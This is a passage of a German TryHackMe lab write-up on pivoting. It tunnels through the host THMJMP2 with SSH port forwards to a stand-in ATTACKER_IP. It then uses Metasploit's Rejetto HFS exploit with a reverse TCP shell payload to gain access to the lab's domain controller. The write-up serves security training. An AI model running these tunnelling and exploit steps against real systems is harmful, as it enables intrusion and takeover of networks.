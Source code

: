 Rejetto HFS hört auf Port 80 auf THMDC, also müssen wir für diesen einen Tunnel zu uns zurück erstellen durch die THMJMP2 Maschine. Wenn Port 80 bereits durch einen anderen Service belegt ist, müssen wir Port 80 auf THMDC mit einem anderen Port verbinden der noch nicht belegt ist. Da haben wir im Prinzip die frei Wahl, nutzen aber jetzt Port 8888. Wenn wir eine SSH Verbindung zu THMJMP2 erstellen und Portwarding betreiben wollen, müssen folgendes unserem Befehl hinzufügen:

>-R 8888:thmdc.za.tryhackme.com:80

Für die beiden Ports SRVPORT und LPORT wählen wir einfach irgendwelchen zufälligen Ports wie bspw. SRVPORT=31337 und LPORT=31338.
Um diese Ports an THMJMP2 von unserer Maschine aus weiterzuleiten fügen wir unserem SSH Command folgendes hinzu:

>-L *:31337:127.0.0.1:31337 sowie -L *:31338:127.0.0.1:31338

Jetzt fügen wir den gesamten Befehl zusammen und erhalten folgendes:

```bash
ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:31337:127.0.0.1:31337 -L *:31338:127.0.0.1:31338 -N
```

Das ganze müssen wir jetzt auf der Pivot Maschine ausführen. Hier hatte ich allerdings das Problem, dass auf meiner Attacker Maschine der Port 22 nicht offen war und somit keine SSH Verbindungen zu mir aufgebaut werden konnten. Ich habe ständig den Fehler bekommen, dass die Verbindung abgelehnt wurde. 

**Daher muss man den Port 22 in der /etc/ssh/sshd_config auskommentieren. Danach startet man den SSH Service mit systemctl restart ssh neu und führt den oben genannten Befehl aus.**

Dann muss man nur noch in Metasploit den Rejetto Exploit konfigurieren z.b. so:

```bash
user@AttackBox$ msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 31338 
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 31337

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

Nach ausführen des Exploits haben Zugriff auf den THMDC bzw. Domain Controller.






